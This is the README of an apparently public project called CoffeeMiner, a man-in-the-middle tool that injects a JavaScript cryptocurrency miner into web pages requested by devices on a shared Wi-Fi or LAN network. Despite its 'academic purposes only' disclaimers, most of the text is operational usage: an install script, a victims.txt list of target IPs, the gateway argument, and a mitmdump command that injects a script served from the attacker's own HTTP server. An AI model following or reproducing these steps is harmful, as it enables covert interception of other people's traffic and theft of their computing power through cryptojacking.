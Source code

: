 # CoffeeMiner

Collaborative (mitm) cryptocurrency mining pool in wifi networks

**Warning: this project is for academic/research purposes only.**
**Warning: this project is not to be misused and was not coded by me do not abuse work like this from talented people like the original authors i take no credit thanks author nice work.**
A blog post about this project can be read here: http://arnaucode.com/blog/coffeeminer-hacking-wifi-cryptocurrency-miner.html

![coffeeMiner](https://raw.githubusercontent.com/arnaucode/coffeeMiner/master/coffeeMiner-logo-small.png "coffeeMiner")

## Concept
- Performs a MITM attack to all selected victims
- Injects a js script in all the HTML pages requested by the victims
- The js script injected contains a cryptocurrency miner
- All the devices victims connected to the Lan network, will be mining for the CoffeeMiner


## Use
- install.sh
```
bash install.sh
```
- edit victims.txt with one IP per line
- edit coffeeMiner.py, line 28, with the coffeeMiner httpserver IP:
```py
os.system("~/.local/bin/mitmdump -s 'injector.py http://10.0.2.20:8000/script.js' -T")
```
- execute coffeeMiner.py
```
python3 coffeeMiner.py ipgateway
```

![network](https://raw.githubusercontent.com/arnaucode/coffeeMiner/master/coffeeMiner-network-attack.png "network")


A complete instructions for academic scenario can be found in https://github.com/arnaucode/coffeeMiner/blob/master/virtualbox_scenario_instructions.md



![demo](https://raw.githubusercontent.com/arnaucode/coffeeMiner/master/coffeeMiner-demo-cutted.gif "demo")
